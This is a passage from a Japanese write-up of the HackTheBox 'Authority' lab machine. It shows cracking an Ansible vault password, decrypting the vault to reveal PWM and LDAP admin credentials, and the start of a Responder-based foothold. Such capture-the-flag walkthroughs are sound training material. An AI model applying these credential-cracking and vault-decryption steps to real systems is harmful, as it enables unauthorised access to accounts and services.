 ```sh
1g 0:00:00:11 DONE (2025-07-28 22:59) 0.09025g/s 3604p/s 3604c/s 3604C/s PASAWAY..prospect
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

 パスワードが、`!@#$%^&*`とわかったので、ファイルを復号化する
 - しかし、ファイル全体が暗号化されているわけではないので、以下のコマンドでそれぞれに分解して復号化する
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Authority]
└─$ ansible localhost -m debug -a "msg={{ pwm_admin_login }}" \
  -e "@Automation/Ansible/PWM/defaults/main.yml" \
  --vault-password-file pass.txt
[WARNING]: No inventory was parsed, only implicit localhost is available
localhost | SUCCESS => {
    "msg": "svc_pwm"
}
                                                                                                                                                                               
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Authority]
└─$ ansible localhost -m debug -a "msg={{ pwm_admin_password }}" \
  -e "@Automation/Ansible/PWM/defaults/main.yml" \
  --vault-password-file pass.txt
[WARNING]: No inventory was parsed, only implicit localhost is available
localhost | SUCCESS => {
    "msg": "pWm_@dm!N_!23"
}
                                                                                                                                                                               
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Authority]
└─$ ansible localhost -m debug -a "msg={{ ldap_admin_password }}" \
  -e "@Automation/Ansible/PWM/defaults/main.yml" \
  --vault-password-file pass.txt 
[WARNING]: No inventory was parsed, only implicit localhost is available
localhost | SUCCESS => {
    "msg": "DevT3st@123"
}
    
```

それぞれの認証情報を取得できた
- pwm_admin_login : svc_pwm
- pwm_admin_password : pWm_@dm!N_!23
- ldap_admin_password : DevT3st@123

ログインできた
![](https://i.imgur.com/GFLZ07E.png)

# Foothold

### Responder
Configuration Activitiesから、Download Configurationして、パスワードを書き換える
- クラックしようとしたけど無理だった
サイトを使って計算
![](https://i.imgur.com/WUSy8j1.png)
